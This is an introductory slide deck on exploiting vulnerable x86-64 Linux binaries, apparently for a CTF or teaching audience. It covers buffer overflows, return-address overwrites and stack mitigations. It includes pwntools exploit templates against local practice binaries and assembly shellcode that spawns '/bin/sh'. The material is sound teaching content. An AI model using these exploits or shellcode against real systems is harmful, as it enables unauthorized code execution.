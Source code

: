 ```yaml
---
marp: true
theme: leet
---
```


# pwn

exploiting (very) vulnerable x86-64 binaries on linux

---

## c bad

- trusts you too much
  - array accesses
  - integer overflows
- mixing data and metadata
  - return addresses on stack
  - null-terminated strings
- manual {init,cleanup}
- poor type system

---

some dangerous library functions:

- `gets`
- `strcpy`
- `scanf`
- `sprintf`
- …

---

![gets deemed dangerou](./media/gets.png)

---

## buffer overflows

---

### stepping out of our lane

- causing crashes
- changing stuff on the stack
- jumping to arbitrary places in the code
  - other functions
  - middle of other functions
- running arbitrary code*

---

### causing crashes

Inputs like `AAAAAAAAAAAAAAAAAAAAAAAAAAAA…`

```py
from pwn import *

p = process("./vuln")
p.sendline(b"A" * 500) # adjust number as necessary
```

---

### changing stuff on the stack

```py
from pwn import *

padding = 64

p = process("./vuln")
p.sendline((b"A" * padding) + p32(0xDEADBEEF))
```

---

### changing (especially useful) stuff on the stack

1. set a breakpoint in the vulnerable function
2. run
3. check the addresses of
   - the vulnerable buffer
   - saved rip (`info frame`)
4. send `(b'A' * padding) + p64(spoof_return_addr)`

---

```py
from pwn import *

saved_rip_addr = 0x7fffffff...
buffer_addr = 0x7fffffff...
padding_size = saved_rip_addr - buffer_addr

spoofed_return_addr = 0x40...

p = process("./pwnable")
p.sendline((b'A' * padding_size) + p64(spoofed_return_addr))
p.interactive()
```

---

### shellcode

compiled bytes (position-independent) that do stuff

examples:

- open a shell
- read a file
- change permissions on a file
- callback shell
- …

considerations: prohibited bytes, …

---

x86-64 shellcode to do `execve("/bin/sh", NULL, NULL)`

```assembly
/* syscall number for execve */
mov rax, 59

/* bytes corresponding to "/bin/sh" */
mov rbx, 0x68732f2f6e69622f

/* move the string to the stack */
push rbx

/* set the first arg to the address of the string */
mov rdi, rsp

/* argv is NULL */
mov rsi, 0

/* envp is NULL */
mov rdx, 0

syscall
```

---

### assembling with pwntools

```py
assembly = '''
    nop
    nop
    nop
'''

# convert assembly to bytes
# amd64 = intel x86-64
shellcode = asm(assembly, arch='amd64')
```

---

### write ⊕ execute

don't execute stack contents as code!

the pages of memory for the stack should never be executable!

gcc requires you to explicitly disable this (`-z execstack`).

---

### stack canaries

1. insert some secret bytes at the boundaries of buffers
2. before leaving the function, verify that they haven't been overwritten

gcc requires you to explicitly disable this (`-fno-stack-protector`).

pretty solid. if you can somehow leak the canary though, you can just delicately replace it.

---

### aslr

address-space layout randomization

moves the stack around to make it harder for the attacker to guess the location of their exploits.

---

### rop

1. make a list of useful gadgets
2. chain gadgets to execute arbitrary-ish assembly
3. ???
4. profit

<!-- also jop -->

---

### format string vulns

[_optional reading_](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)
